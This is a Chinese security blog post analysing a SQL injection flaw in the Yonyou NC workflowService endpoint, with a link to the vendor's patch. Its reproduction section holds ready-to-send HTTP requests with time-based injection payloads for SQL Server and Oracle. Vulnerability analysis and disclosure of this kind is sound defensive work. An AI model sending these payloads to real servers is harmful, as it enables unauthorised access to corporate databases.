 #  用友NC workflowService SQL注入1day代码分析   
原创 island  深白网安   2024-12-04 09:17  
  
# 免责声明：文章中内容来源于互联网，涉及的所有内容仅供安全研究与教学之用，读者将其信息做其他用途而造成的任何直接或者间接的后果及损失由用户承担全部法律及连带责任。文章作者不承担任何法律及连带责任！如有侵权烦请告知，我们会立即删除整改并向您致以歉意。  
#   
# 0x00.漏洞描述  
# 用友NC存在SQL注入漏洞，攻击者可通过该漏洞获取数据库敏感数据  
#   
# 0x01.漏洞分析  
```
home/modules/webimp/lib/pubwebimp_cpwfmLevel-1/nc/uap/wfm/action/WorkflowService.java
```  
  
该类下的doPost方法接收proDefPk参数并传入WfmXmlUtil.getWfmXmlByPk  
  
![](https://mmbiz.qpic.cn/mmbiz_png/uY5HnRPFudicwhnUx8XLSLpr1x2JPOO0j5TvFIr6xzHDSdw521licMuN5aElPWweJBadSrkibUyjaEM0iazyOCeMDA/640?wx_fmt=png&from=appmsg "")  
  
WfmXmlUtil.getWfmXmlByPk定义如下，将参数传给IWfmProDefQry.getProDefVOByProDefPk  
  
![](https://mmbiz.qpic.cn/mmbiz_png/uY5HnRPFudicwhnUx8XLSLpr1x2JPOO0jBAdSwghBZA2ewPzJJZtaIicMBx9PJ4Gqm0PkSRPygFoj0B2yc1o5HvQ/640?wx_fmt=png&from=appmsg "")  
  
WfmProDefQry.为IWfmProDefQry接口的实现类，其对应的getProDefVOByProDefPk方法实现如下  
  
![](https://mmbiz.qpic.cn/mmbiz_png/uY5HnRPFudicwhnUx8XLSLpr1x2JPOO0jxd7ibfmH0xnibr3tkAx1Qttkx01sDDC13zOiagDh7bApSCytkXQf8NCeg/640?wx_fmt=png&from=appmsg "")  
  
这里直接将参数拼接进sql语句产生sql注入  
  
0x02.漏洞复现  
  
分为两种数据库两种poc注入验证  
  
sqlserve  
```
GET /portal/pt/servlet/workflowService/doPost?pageId=login&proDefPk=1'waitfor+delay+'0:0:5'-- HTTP/1.1
Host: 
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Connection: keep-alive
Accept-Encoding: gzip, deflate
Priority: u=0, i
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:132.0) Gecko/20100101 Firefox/132.0
Cookie: JSESSIONID=3F221B907A99FE29F8B545440F233F25.server
Upgrade-Insecure-Requests: 1
```  
  
  
**Oracle**  
  
****```
GET /portal/pt/servlet/workflowService/doPost?pageId=login&proDefPk=1'+AND+1=DBMS_PIPE.RECEIVE_MESSAGE(1,5)-- HTTP/1.1
Host:
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Connection: keep-alive
Accept-Encoding: gzip, deflate
Priority: u=0, i
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:132.0) Gecko/20100101 Firefox/132.0
Cookie: JSESSIONID=3F221B907A99FE29F8B545440F233F25.server
Upgrade-Insecure-Requests: 1
```  
  
![](https://mmbiz.qpic.cn/mmbiz_png/uY5HnRPFudicwhnUx8XLSLpr1x2JPOO0jC3VawspK2oicT0XC3ekyd56V8PSpPsicVLyHSFb59agyCUy3KPicIeATA/640?wx_fmt=png&from=appmsg "")  
  
![](https://mmbiz.qpic.cn/mmbiz_png/uY5HnRPFudicwhnUx8XLSLpr1x2JPOO0jCfiaahB5eicU9j6pxtciaxueibNrpzvlOkGZMaVorOibWRictW6cEmCuT9Tw/640?wx_fmt=png&from=appmsg "")  
# 0x03.修复建议  
# 厂商已提供漏洞修补方案，请关注厂商主页及时更新  
# https://security.yonyou.com/#/noticeInfo?id=540  
#   
# 免责声明：文章来源互联网收集整理，请勿利用文章内的相关技术从事非法测试，由于传播、利用此文所提供的信息或者工具而造成的任何直接或者间接的后果及损失，均由使用者本人负责，所产生的一切不良后果与文章作者无关。该文章仅供学习用途使用。  
#   
  
